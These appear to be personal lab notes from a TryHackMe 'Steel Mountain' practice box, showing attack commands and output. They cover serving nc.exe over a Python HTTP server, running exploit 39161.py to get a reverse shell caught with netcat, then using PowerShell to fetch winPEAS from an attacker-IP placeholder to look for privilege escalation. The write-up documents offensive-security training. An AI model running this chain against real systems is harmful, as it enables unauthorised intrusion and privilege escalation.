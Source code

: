 #SOLUTION = change directory where python HTTP server was being hosted:
(kali㉿kali)-[/usr/share/windows-resources/binaries]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.196.240 - - [02/Feb/2022 12:41:27] "GET /nc.exe HTTP/1.1" 200 -
10.10.196.240 - - [02/Feb/2022 12:41:27] "GET /nc.exe HTTP/1.1" 200 -
10.10.196.240 - - [02/Feb/2022 12:41:27] "GET /nc.exe HTTP/1.1" 200 -
10.10.196.240 - - [02/Feb/2022 12:41:27] "GET /nc.exe HTTP/1.1" 200 -

(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ python 39161.py 10.10.196.240 8080

┌──(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ python 39161.py 10.10.196.240 8080

(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ nc -nlvp 4442
listening on [any] 4442 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.196.240] 49248
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

#I got a shell:) so next is to use winPEAS to escalate privileges:
#(using powershell - c "")

#after looking aorund for a bit, I found the directory with the right winPEAs:
(kali㉿kali)-[~/…/winPEASexe/binaries/x64/Release]
└─$ ls
winPEASx64.exe

#so i copied this file into the directory where I hosted my httpserver, and renamed it winpeas.exe
#this worked
 powershell -c "Invoke-WebRequest -OutFile winPEAS.exe http://<attacker_ip>/winPEAS.exe"

#next I executed it:
C:\Users\bill\Desktop>winPEAS.exe
winPEAS.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

             *((,.,/((((((((((((((((((((/,  */
      ,/*,..*((((((((((((((((((((((((((((((((((,
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*
    ((((((((((((((((**********/########## .(* ,(((((((
    (((((((((((/********************/####### .(. (((((((
    ((((((..******************/@@@@@/***/###### ./(((((((
    ,,....********************@@@@@@@@@@(***,#### .//((((((
    , ,..********************/@@@@@%@@@@/********##((/ /((((    
    ..((###########*********/%@@@@@@@@@/************,,..((((
    .(##################(/******/@@@@@/***************.. /((
    .(#########################(/**********************..*((    
    .(##############################(/*****************.,(((
    .(###################################(/************..(((
    .(#######################################(*********..(((    
    .(#######(,.***.,(###################(..***.*******..(((
    .(#######*(#####((##################((######/(*****..(((
    .(###################(/***********(##############(...(((    
    .((#####################/*******(################.((((((
    .(((############################################(..((((
    ..(((##########################################(..(((((
    ....((########################################( .(((((
    ......((####################################( .((((((
    (((((((((#################################(../((((((
 	(((((((((/##########################(/..((((((
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.